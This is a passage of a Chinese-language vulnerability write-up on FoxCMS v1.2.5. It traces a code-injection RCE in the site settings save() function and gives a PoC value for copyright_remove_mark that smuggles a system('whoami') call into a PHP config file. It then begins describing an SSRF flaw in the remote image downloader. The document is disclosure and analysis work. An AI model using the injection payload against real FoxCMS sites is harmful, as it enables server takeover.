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';
            }
            $base['copyright_mark_desc'] = $copyright_mark_desc;
        }
        if ($base['copyright_color'] != $param['copyright_color']) {
            $copyright_color = $param['copyright_color'];
            $base['copyright_color'] = $copyright_color;
            $font_color = str_replace("rgba(", "", $copyright_color) . str_replace(")", "", $copyright_color);
            $font_colorArr = explode(",", $font_color);
            $fc_val = $font_colorArr[0] * 0.299 + $font_colorArr[1] * 0.587 + $font_colorArr[2] * $font_colorArr[3]; //自适应公式
            if ($fc_val <= 86) {
                $font_color = "#444";
            } elseif ($fc_val > 86 && $fc_val <= 172) {
                $font_color = "#aaa";
            } else {
                $font_color = "#999";
            }
            $base['font_color'] = $font_color;
        }
        if ($base['copyright_remove_mark'] != $param['copyright_remove_mark']) {
            $base['copyright_remove_mark'] = $param['copyright_remove_mark'];
        }

        set_php_arr(config_path('cfg'),  'base.php', $base);

        if ($id == "" || empty($id)) {
            if (empty($param["url"])) {
                $param["url"] = $this->request->subDomain() . "." . $this->request->rootDomain();
            }
            $param['lang'] = xn_cfg("base.lang");
            BasicModel::create($param);
        } else {
            //更新配置文件
            $adminconfigArr = config('adminconfig');
            $adminPathOld = $adminconfigArr['admin_path'];
            $adminPathNew = $param['admin_path'] ?? "admin";
            if (empty($adminPathNew)) { //后台路径为空默认给admin
                $adminPathNew = "admin";
            }
            if ($adminPathOld != $adminPathNew) { //后台路径发生转变的时候，删除缓存
                //从命名入口文件名称
                $oldAdminFile = replaceSymbol(root_path()) . $adminPathOld . ".php";
                $newAdminFile = replaceSymbol(root_path()) . $adminPathNew . ".php";

                $xr = rename($oldAdminFile, $newAdminFile);
                if (!$xr) {
                    $this->error("设置失败，请开启/目录权限，如何不会请联系管理员");
                }
                $adminconfig = config("adminconfig");
                if (sizeof($adminconfig) > 0) {
                    $adminconfig['admin_path'] = $adminPathNew;
                } else {
                    $adminconfig = [
                        // 默认后台访问路径
                        'admin_path' => $adminPathNew,
                        //静态文件路径
                        'static_path' => $adminconfig['static_path'] ?? "/static/",
                        'foxcms_domain' => $adminconfig['foxcms_domain'] ?? 'http://www.foxcms.cn',
                        'version_domain' => $adminconfig['version_domain'] ?? 'http://lite.control.foxcms.cn'
                    ];
                }
                set_php_arr(config_path(),  'adminconfig.php', $adminconfig);
                //删除目录
                $dir = root_path() . "runtime";
                delDir($dir);
                //保存数据
                unset($param['admin_path']);
                BasicModel::update($param);
                $this->success('设置成功', "", $adminPathNew . ".php");
            } else {
                //保存数据
                unset($param['admin_path']);
                BasicModel::update($param);
            }
        }
        xn_add_admin_log("保存基本设置", "config"); //添加日志
        $this->success('设置成功');
    }

    // 写入配置文件
    protected function _set($param, $filename = "base")
    {
        if (is_array($param) && !empty($param)) {
            $file = config_path() . $this->folder . "/" . $filename . '.php';
            $str = "<?php\r
return [\r
";
            foreach ($param as $key => $val) {
                $str .= "\t'$key' => '$val',";
                $str .= "\r
";
            }
            $str .= '];';
            file_put_contents($file, $str);
        }
    }

    // 加载配置文件
    protected function _load($filename)
    {
        $data = \think\facade\Config::load($this->folder . "/" . $filename, $filename);
        return $data;
    }
}
```

​

我们重点关注漏洞`save()`函数

```
 public function save()
    {
        $param = $this->request->post();
        $id = $param["id"];
        $base = xn_cfg("base");
        if ($param["status"] != $base["status"]) {
            //保存状态
            $base["status"] = $param["status"];
        }
        if ($base["status"] == 0) {
            $base["status_desc"] = $param["status_desc"];
        }
......
        if ($base['copyright_remove_mark'] != $param['copyright_remove_mark']) {
            $base['copyright_remove_mark'] = $param['copyright_remove_mark'];
        }

        set_php_arr(config_path('cfg'),  'base.php', $base);
······
```

最后调用函数`set_php_arr`将变量值拼接写入php文件

```
    function set_php_arr($phpPath, $filename, $saveData)
    {
        //创建文件夹
        if (!tp_mkdir($phpPath)) {
            return "创建文件夹失败";
        }

        $phpfile = $phpPath . $filename;
        $str = "<?php\r
return [\r
";
        foreach ($saveData as $key => $val) {
            $str .= "\t'$key' => '$val',";
            $str .= "\r
";
        }
        $str .= '];';
        file_put_contents($phpfile, $str);
    }
```

调试找到写入的php文件路径以及变量`saveData`的值，并且数组param中的值都是传参可控的，我们可以通过拼接进php文件来RCE

```
$phpfile=config\cfg\base.php
```

  
因为首页`index.php`包含了`config\cfg\base.php`，所以代码会被执行  


### 漏洞攻击

进入站点基本设置直接点击保存抓包  
  
修改参数`copyright_remove_mark`为poc:

```
0','test'=>system('whoami'),'a'=>'a
```



之后访问首页`index.php`发现页面很多地方已经被渲染为命令执行的结果，除了回显之外，攻击者还能利用此漏洞直接反弹shell拿到服务器权限  


​

## SSRF漏洞

FoxCMS最新版本v1.2.5远程图片下载功能存在SSRF漏洞，可以使用file伪协议读取内网和服务器任意文件内容。并且攻击者可以利用该漏洞扫描本地和内网端口，攻击本地和内网服务。

### 调试分析

漏洞在控制器文件`app\admin\controller\PicManager.php`

```
<?php

/**
 * @Descripttion : FOXCMS 是一款高效的 PHP 多端跨平台内容管理系统
 * @Author : FoxCMS Team
 * @Date : 2023/6/26   15:17
 * @version : V1.08
 * @copyright : ©2021-现在 贵州黔狐科技股份有限公司 版权所有
 * @LastEditTime : 2023/6/26   15:17
 */

namespace app\admin\controller;

use app\common\controller\AdminBase;
use app\common\lib\Oss;
use app\common\lib\Qiniu;
use app\common\model\DictData as DictDataModel;
use app\common\model\DictType as DictTypeModel;
use app\common\model\UploadFiles as UploadFilesModel;
use app\common\util\ImageQuality;
use app\common\util\ImageUtil;
use think\App;
use think\facade\Db;
use think\File;

// 图片管理器
class PicManager extends AdminBase
{
    // 获取图片
    private function imgList($param)
    {
        $startDate = $param['startDate'];
        $endDate = $param['endDate'];
        $currentPage =  intval($param['currentPage'] ? $param['currentPage'] : 1);
        $pageSize = intval($param['pageSize'] ? $param['pageSize'] : 10);
        $groupId = intval(($param['groupId'] || $param['groupId'] == '0') ? $param['groupId'] : -1); //分组
        //        $storage = intval($param['storage']);//远程
        $where = ["file_type" => "image"];
        if ($groupId == 1) { //本地图片
            $where['storage'] = 0;
        } else if ($groupId == 2) { //OSS图片
            $where['storage'] = 1;
        } else {
            if ($groupId != -1) {
                $where['file_group_type'] = $groupId;
            }
        }

        $ufmWObj = UploadFilesModel::field('id, file_name as name, url, storage, file_group_type, size')->where($where);
        if ($startDate != '') {
            $ufmWObj->whereTime("create_time", '>=', $startDate);
        }
        if ($endDate != '') {
            $ufmWObj->whereTime("create_time", '<=', $endDate);
        }
        $imgObj = $ufmWObj->order("create_time", 'desc')->paginate(['page' => $currentPage, 'list_rows' => $pageSize]);
        $rdata = [
            "current_page" => $imgObj->currentPage(),
            "total" => intval($imgObj->total()),
            "per_page" => intval($pageSize),
            "groupId" => intval($groupId),
            "data" => $imgObj->all()
        ];
        return $rdata;
    }

    // 获取全部图片分组
    private function groupList($param)
    {
        $groupId = $param["groupId"];
        $groupId = intval(($param['groupId'] || $param['groupId'] == '0') ? $param['groupId'] : -1);

        $groupList = DictTypeModel::where('dict_type', 'fox_pic_group_type')->with('dictDatas')->find()->dictDatas;
        $state = 0;
        if ($groupId == -1) {
            $state = 1;
        }
        $rGroupList = [['id' => 0, 'title' => '全部', 'type' => 'all', 'count' => 0, 'state' => $state,  'groupId' => -1]];
        $total = UploadFilesModel::count();
        foreach ($groupList as $key => $item) {
            $state = 0;
            if ($groupId == $item->dict_value) {
                $state = 1;
            }
            $rGroupList[($key + 1)] = ['id' => $item->dict_code, 'title' => $item->dict_label, 'type' => $item->type, 'count' => $item->count, 'state' => $state, 'groupId' => intval($item->dict_value)];
        }
        $rGroupList[0]['count'] = $total;
        return $rGroupList;
    }

    // 通过curl方式获取制定的图片到本地
    private function getImg($url = "", $filename = "")
    {
        $imageUtil = new ImageUtil();
        $fileName = $imageUtil->download($url, $filename); //本地文件全路径
        if (empty($fileName)) {
            return ['code' => 0, 'msg' => "拉取文件失败"];
        }
        $file = new File($fileName);
        $result = $imageUtil->upload($file);
        if ($result['code'] == 1) {
            unlink($fileName);
            return $result;
        } else {
            return ['code' => 0, 'msg' => "上传失败"];
        }
    }

    // 更新图片组
    private function updateImageGroup()
    {
        try {
            //更新上传图片数
            $groupList = DictTypeModel::where('dict_type', 'fox_pic_group_type')->with('dictDatas')->find()->dictDatas;
            foreach ($groupList as $key => $item) {
                $dict_value = $item->dict_value; //模型分组
                $count = 0;
                if ($dict_value == 1) { //本地图片
                    $count = UploadFilesModel::where("storage", 0)->count();
                } elseif ($dict_value == 2) { //OSS图片
                    $count = UploadFilesModel::where("storage", 1)->count();
                } else {
                    $count = UploadFilesModel::where("file_group_type", $dict_value)->count();
                }
                $dicytData = (new DictDataModel())->where(['dict_type' => "fox_pic_group_type", "dict_value" => $dict_value])->find();
                if ($dicytData) {
                    $dicytData->count = $count;
                    $dicytData->save();
                }
            }
        } catch (\ErrorException $e) {
        }
    }

    // 文件管理
    public function picManager()
    {
        $param = $this->request->param();
        $event = $param["event"]; //行为
        $startDate = $param["startDate"] ?? "";
        $param["startDate"] = $startDate;
        $endDate = $param["endDate"] ?? "";
        $param["endDate"] = $endDate;
        $groupId = $param["groupId"];
        $param["endDate"] = $endDate;
        $type = $param["type"];

        $msg = "失败"; //返回信息

        //水印状态
        $isStamped = 0;
        $watermark = null;
        $watermarkArr = Db::name("watermark")->select()->toArray();
        if (sizeof($watermarkArr) > 0) {
            $watermark = $watermarkArr[0];
            $isStamped = $watermark['status'];
        }

        if ($event == "init") { //初始化
            $imgData = $this->imgList($param); //本地
            $localImgList = $imgData["data"];
            $localPagination = [
                "pageSize" => $imgData['per_page'],
                "total" => $imgData['total'],
                "currentPage" => $imgData['current_page'],
                "groupId" => $imgData['groupId']
            ];
            $groupList = $this->groupList($param); //分组
            $imageUtil =  new ImageUtil();
            $limitSize = $imageUtil->getSize();
            $result = ["groupList" => $groupList, "localImgList" => $localImgList, "localPagination" => $localPagination, "isStamped" => $isStamped, 'limitSize' => $limitSize];
            $this->success("成功", "", $result);
        } elseif ($event == "change") { //重新拉去数据
            $handle = $param["handle"]; //行为
            if ($handle == "get") {
                $groupList = $this->groupList($param); //分组
                if ($type == "local") {
                    $imgDa = $this->imgList($param); //本地
                    $result = [
                        "total" => $imgDa["total"],
                        "currentPage" => $imgDa["current_page"],
                        "pageSize" => $imgDa["per_page"],
                        "imgList" => $imgDa["data"],
                        "groupId" => $groupId,
                        "groupList" => $groupList,
                        "type" => $type,
                        "handle" => $handle,
                        "startDate" => $startDate,
